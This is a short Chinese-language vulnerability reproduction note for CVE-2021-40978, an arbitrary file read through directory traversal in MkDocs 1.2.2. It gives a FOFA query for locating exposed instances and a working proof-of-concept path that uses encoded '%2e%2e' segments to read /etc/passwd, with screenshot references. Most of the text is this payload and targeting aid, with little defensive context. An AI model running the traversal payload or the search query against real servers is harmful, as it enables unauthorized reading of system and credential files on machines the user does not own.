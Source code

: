 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

```
Mkdocs 1.2.2
```

## FOFA

```
title="My Docs"
```

## 漏洞复现

主页面

![image-20220524152422662](./images/202205241524715.png)

验证POC

```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220524152444205](./images/202205241524264.png)